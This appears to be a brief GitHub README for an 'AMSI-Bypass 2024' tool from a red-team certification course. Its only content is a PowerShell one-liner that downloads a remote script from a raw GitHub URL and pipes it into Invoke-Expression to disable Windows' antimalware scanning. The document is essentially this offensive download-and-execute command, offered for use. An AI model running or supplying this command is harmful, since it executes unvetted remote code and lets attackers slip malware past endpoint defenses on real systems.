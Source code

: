 # AMSI-Bypass 2024

Bypass AMSI from CRTE Journey
![](psby.png)
## Command
```powershell
Invoke-Webrequest "https://raw.githubusercontent.com/0xBugatti/AMSI-Bypass/refs/heads/main/MS-AMUpdate.ps1"|IEX
```
